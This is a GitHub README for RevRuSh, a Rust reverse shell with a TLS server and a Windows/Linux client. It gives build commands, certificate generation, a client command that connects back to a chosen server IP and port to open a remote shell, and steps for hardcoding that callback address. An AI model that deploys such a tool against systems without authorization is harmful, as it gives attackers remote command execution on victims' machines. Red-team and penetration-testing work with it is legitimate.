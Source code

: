 # RevRuSh - A sample reverse shell in Rust
Based on https://github.com/trickster0/RedLizard

![Redlizard](screen.png)

### Note
Based on [RedLizard](https://github.com/trickster0/RedLizard), since the author does not mantained it anymore, I decided to create a new indipendent repository.

### Changes from the original project:
- Use native_tls instead of openssl, since openssl on windows it's a pain
- Client run both on windows and linux
- Client on linux execute command through bash
- The certificate (and the private key) is now embedded into the server as PFX file
- The client accept the server IP and port as parameter
- Adjusted the code to suppress warning
- Optimized command management: now you can pass parameter, e.g. ip a, ipconfig /all


### Requirements:
- rustc & cargo >= 1.73.0
- on linux: OpenSSL 3.0.11 with libssl-dev installed
- pfx file must reside on src folder of the server
### Advises
- better run server on linux

### Prepare the server
    cd RevRuSh/server
    openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout my.key -out my.crt && \
    openssl pkcs12 -export -out revrush.pfx -inkey my.key -in my.crt && \
    mv revrush.pfx src

    cargo b --release
    
### Run the server
Pass the certificate password and the port. The server will listen to all the available IP4 interfaces:
```
target/release/revrush_server Zinz01 8443
```

### Prepare the client
    cd RevRuSh-main\client>
    cargo b --release
    
### Run the client
Pass the server:port as argument.
```
target\release\revrush_client.exe <server IP>:8443
```
If you want to run powershell command you can execute:
         
    ~$: powershell -c get-help

#### Hardcoded configuration on the client
If you cannot pass the server:port parameter to the client consider to change the following in client main file (around line 23):
```rust
 "127.0.0.1:4443".to_owned()
```
#### Known issues
~~Don't send empty command to the client, just hitting carriage return, since the server will loose the shell, not the connection. The reuslt will be a hanging session~~

